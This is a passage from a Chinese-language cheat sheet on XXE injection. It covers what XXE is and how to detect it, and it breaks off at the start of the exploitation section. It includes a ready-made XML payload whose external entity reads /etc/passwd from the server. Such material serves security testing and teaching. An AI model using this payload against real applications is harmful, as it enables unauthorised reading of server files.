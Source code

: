 # XML 外部实体注入 (XXE)

> XML 外部实体注入（XML External Entity，XXE）是一种针对解析 XML 输入的应用程序的攻击类型，它允许攻击者利用 XML 实体处理漏洞。XML 实体可用于指示 XML 解析器获取服务器上的特定内容。

## 目录

- [工具](#工具)
- [漏洞检测](#漏洞检测)
- [利用 XXE 读取文件](#利用-xxe-读取文件)
    - [经典 XXE](#经典-xxe)
    - [Base64 编码的 XXE](#base64-编码的-xxe)
    - [XXE 盲注](#xxe-盲注)
- [XXE 攻击场景](#xxe-攻击场景)
- [防御措施](#防御措施)
- [学习资源](#学习资源)

## 什么是 XXE？

XML 外部实体注入（XXE）是一种安全漏洞，当应用程序解析用户提供的 XML 输入时，未正确配置 XML 解析器，导致攻击者能够读取服务器上的任意文件、执行服务器端请求伪造（SSRF）攻击、端口扫描内部系统等。

## 漏洞检测

### 基本检测

1. **检查 XML 处理**
   - 查找接受 XML 输入的功能点
   - 检查文件上传功能是否处理 XML 文件
   - 检查 SOAP 请求和响应

2. **简单测试**
   ```xml
   <?xml version="1.0"?>
   <!DOCTYPE test [ <!ENTITY xxe "test"> ]>
   <test>&xxe;</test>
   ```

3. **检测外部实体**
   ```xml
   <?xml version="1.0"?>
   <!DOCTYPE test [
     <!ENTITY xxe SYSTEM "file:///etc/passwd">
   ]>
   <test>&xxe;</test>
   ```

## 利用 XXE 读取文件

### 经典 XXE
